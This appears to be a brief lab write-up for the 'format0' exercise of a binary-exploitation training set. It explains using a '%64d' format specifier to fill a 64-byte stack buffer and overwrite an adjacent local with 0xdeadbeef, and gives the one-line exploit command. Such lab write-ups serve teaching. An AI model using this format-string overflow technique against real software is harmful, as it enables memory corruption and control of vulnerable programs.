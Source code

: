 "print" 64 char to fill the buffer and overflow 0xdeadbeef to stack value stored next.
This works because both variables are local and stored in stack together one under another.

./format0 $(python -c "print '%64d\xef\xbe\xad\xde'")